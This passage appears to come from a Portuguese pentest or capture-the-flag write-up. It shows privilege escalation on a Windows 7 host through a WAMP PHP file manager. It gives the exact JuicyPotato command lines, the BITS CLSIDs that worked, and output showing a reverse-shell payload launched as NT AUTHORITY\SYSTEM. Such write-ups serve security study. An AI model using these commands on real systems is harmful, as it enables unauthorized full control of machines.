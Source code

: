 Já o JuicyPotato.x86 funcionou, em partes, corretamente :

<pre>C:\wamp\www\PHP\fileManager\users\U2&gt;C:\wamp\www\PHP\fileManager\users\U2\Juicy.Potato.x86.exe -t * -p C:\wamp\www\PHP\fileManager\users\U2\revshell_leg.exe -l 12
<font color="RED">Testing {4991D34B-80A1-4291-B697-000000000000} 12
COM -&gt; recv failed with error: 10038</font>
</pre>

Dessa vez o erro era de "CLSID". O comando não estava aceitando a chave. Pesquisando no github, encontrei uma página com diversas chaves.

https://github.com/ohpe/juicy-potato/tree/master/CLSID

Bastava achar uma que funcionasse no windows que estavamos explorando.

Com o comando "systeminfo" verificamos se tratar de um Win 7:

<pre>systeminfo

Host Name:                 101CIAAVL
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          admin
</pre>

No link de IDs para win7, encontramos diversas chaves:

https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_7_Enterprise

Essas eram as de system:

<pre>
LocalService 		        CLSID 	                                User
ShellHWDetection 		{555F3418-D99E-4E51-800A-6E89CFD8B1D7} 	NT AUTHORITY\SYSTEM
BITS 	  	                <font color="GOLD">{03ca98d6-ff5d-49b8-abc6-03dd84127020}</font> 	NT AUTHORITY\SYSTEM
BITS 	  	                {F087771F-D74F-4C1A-BB8A-E16ACA9124EA} 	NT AUTHORITY\SYSTEM
BITS 	  	                {6d18ad12-bde3-4393-b311-099c346e6df9} 	NT AUTHORITY\SYSTEM
BITS 	  	                {4991d34b-80a1-4291-83b6-3328366b9097} 	NT AUTHORITY\SYSTEM
BITS 	  	                {69AD4AEE-51BE-439b-A92C-86AE490E8B30}  NT AUTHORITY\SYSTEM
BITS 	  	                {659cdea7-489e-11d9-a9cd-000d56965251} 	NT AUTHORITY\SYSTEM
</pre>

A segunda funcionou para mim:

<pre><font color="#5EBDAB">C:\wamp\www\PHP\fileManager\users\U2\Juicy.Potato.x86.exe -t * -p C:\wamp\www\PHP\fileManager\users\U2\exploit1111.exe -l 11 -c &apos;{03ca98d6-ff5d-49b8-abc6-03dd84127020}&apos;</font>

Testing {03ca98d6-ff5d-49b8-abc6-03dd84127020} 11
......
[+] authresult 0
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
</pre>
